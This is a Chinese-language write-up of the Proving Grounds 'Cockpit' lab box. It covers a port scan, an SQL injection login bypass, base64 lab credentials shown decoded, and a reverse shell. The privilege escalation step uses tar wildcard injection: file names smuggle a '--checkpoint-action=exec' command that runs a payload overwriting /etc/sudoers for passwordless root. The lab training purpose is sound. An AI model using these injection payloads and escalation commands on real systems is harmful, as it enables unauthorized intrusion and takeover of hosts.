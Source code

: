 ```yaml
---
title: '[PG] Cockpit'
date: 2025-04-06 19:37 +0900
categories: [hack,PG]
tags: [sql]
---
```


## information

![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image.png>)
> port scan 

有两个值得我们关注的端口
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-11.png>)
服务器管理系统
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-2.png>)
Web站点
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-3.png>)
通过扫描端口找到一个登录页面
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-10.png>)
没有直接可以利用的方式，对于登录框，我们尝试sql注入
这里做了长度的限制，我选择使用` 'or+true# `
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-4.png>)
> http

![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-5.png>)
成功登录
|Username|Password|Decode|
|---|---|---|
|james|Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=|canttouchhhthiss@455152|
|cameron|dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy|thisscanttbetouchedd@455152|

获得两个用户凭据，

![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-6.png>)
成功登入后台获得服务器shell
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-7.png>)
反弹shell
`sudo -l`发现有特权命令
![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-12.png>)
> 补一张截图

![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-8.png>)



```sh
james@blaze:/tmp$ echo "" > '--checkpoint-action=exec=/bin/bash'
bash: --checkpoint-action=exec=/bin/bash: No such file or directory
james@blaze:/tmp$ echo "" > '--checkpoint-action=exec=/bin/sh'
bash: --checkpoint-action=exec=/bin/sh: No such file or directory
```
这样不能成功，换一种方式，用root权限执行我们预先写好的脚本。

```sh
#at target machine, create 2 files
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh payload.sh'
#then create a payload.sh with below content, you can create on your kali machine and transfer to target machine.
echo 'james ALL=(root) NOPASSWD: ALL' > /etc/sudoers
chmod +x payload.sh
#execute the tar
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
```

![alt text](<../assets/img/2025-04-06-[PG] Cockpit.assets/image-9.png>)

## conclusion
- 尝试密码复用是一个有效的策略。
- 开始渗透之前整体过一下环境。